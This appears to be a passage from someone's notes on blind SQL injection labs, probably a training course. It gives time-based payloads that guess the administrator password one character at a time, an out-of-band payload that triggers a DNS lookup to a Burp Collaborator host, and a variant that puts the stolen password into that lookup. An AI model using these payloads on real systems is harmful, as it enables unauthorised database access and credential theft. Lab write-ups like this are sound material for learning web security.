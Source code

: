 4. Enumerate the administrator password
`' || (select case when (username='administrator' and substring(password,1,1)='a') then pg_sleep(10) else pg_sleep(-1) end from users)--`
+ You can use **BURP CLUSTER BOMB** for this
 - For second argument in `substr`: `substr(password,$1$,1)`
 - For letter looked: `='$a$'`

-------------------------------------------------------------
-------------------------------------------------------------

### 15. Blind SQL: With `out-of-band interaction`
+ Trigger a **DNS Lookup**
 - Look at Cheat Sheet
+ Use **BURP Collaborator Client**
 - Should get a `URL` like: `ranomstuff.burpcollaborator.net`
 
1. Run _Burp Collaborator_
2. Enter the payload (**look at cheatsheet**)
`' || (SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://randomstuff.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual)-- 
`
3. Click _Poll Now_ on _Burp Collaborator_
4. See if results pan out

-------------------------------------------------------------
-------------------------------------------------------------

### 16. Blind SQL: With `out of band data exfiltration`
+ Same as the above lab but with a modified payload
`' || (SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password from users where username='administrator')||'.randomstuff.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual)-- 
`
[This was added]:
'||(SELECT password from users where username='administrator')||'.

+ Should bin the _description_ secion of _collaborator_
 - In this example it should be beginning of **domain name**
  * Example: `password.randomstuff.burpcollaborator.net`

-------------------------------------------------------------
-------------------------------------------------------------


[Final Payload]: ' and (select 'x' from users LIMIT 1)='x'--
[Final Payload]: ' and (select username from users where username='administrator')='administrator'--
[This one worked]: ' || (SELECT sleep(10))--